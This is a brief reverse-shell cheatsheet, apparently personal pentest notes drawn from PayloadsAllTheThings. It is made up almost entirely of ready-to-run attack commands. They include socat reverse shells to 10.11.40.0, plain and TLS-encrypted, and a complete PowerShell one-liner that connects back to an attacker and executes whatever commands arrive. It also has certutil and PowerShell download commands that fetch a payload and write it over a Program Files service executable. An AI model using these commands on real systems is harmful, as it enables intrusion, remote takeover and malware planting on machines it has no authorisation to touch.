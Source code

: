 # Source - 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#php

---
### Reverse shell on Linux with socat(Listener) - 

 ```bash
socat TCP-L:1234 FILE:`tty`,raw,echo=0 
```
### Target machine - 
 ```bash
 socat TCP:10.11.40.0:1234 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
 ```
- **pty**, allocates a pseudoterminal on the target -- part of the stabilisation process
- **stderr**, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
 - **sigint**, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
 - **setsid**, creates the process in a new session
    sane, stabilises the terminal, attempting to "normalise" it.

### Encrypted connection - 
- #### Listener
	```bash
	socat OPENSSL-LISTEN:53,cert=encrypt.pem,verify=0,FILE:tty,raw,echo=0 
	```
- #### Attacker -  
	```bash
 socat OPENSSL:10.10.10.5:53  EXEC:"bash -li",pty,stderr,sigint,setsid,sane
	```
		
### Powershell one liner for reverse shell -
```psh
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('10.11.40.0',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


### Transfer files to windows - 
```bash
certutil -urlcache -f http://<Our_IP>/filename filename	
```
 - With Powershell 
 ```bash
 (New-Object Net.WebClient).DownloadFile("http://10.11.40.0:80/ASCService.exe","C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe")
Invoke-WebRequest "http://10.11.40.0:80/ASCService.exe" -OutFile "ASCService.exe"
```